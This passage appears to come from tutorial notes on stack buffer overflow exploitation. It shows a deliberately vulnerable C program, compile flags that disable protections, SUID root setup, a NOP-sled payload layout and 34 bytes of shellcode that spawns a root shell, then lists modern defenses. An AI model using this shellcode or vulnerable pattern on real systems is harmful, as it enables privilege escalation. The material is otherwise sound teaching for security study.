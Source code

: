 **Attack Strategy:**
1. Find address of `win()` function using `print win` in GDB
2. Calculate offset to return address (typically buffer size + saved EBP)
3. Craft payload: `padding + target_address_in_little_endian`

### Shellcode Injection

**Complete Example:**
```c
#include <stdio.h>
#include <string.h>
int func(char *str) {
    char buf[128];
    strcpy(buf, str);
    return 0;
}

int main(int argc, char *argv[]) {
    func(argv[1]);
    return 0;
}
```

**Compilation for Shellcode:**
```bash
gcc -m32 -g -z execstack -fno-stack-protector -no-pie -o simple simple.c
```

**SUID Setup:**
```bash
sudo chown root:root simple
sudo chmod u+s simple
```

**Payload Structure:**
```
NOP_SLED (80 bytes) + SHELLCODE (34 bytes) + FILLER (26 bytes) + RETURN_ADDRESS (4 bytes)
```

**Example Shellcode (34 bytes):**
```
\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80
```

---

## 10. Defense Considerations (Preview)

### Modern Protections:
- **Stack Canaries** - Detect buffer overflows
- **Address Space Layout Randomization (ASLR)** - Randomize memory locations
- **Data Execution Prevention (DEP/NX)** - Prevent code execution in data areas
- **Stack Protection** - Compiler-level protections
- **Control Flow Integrity** - Hardware-level protections

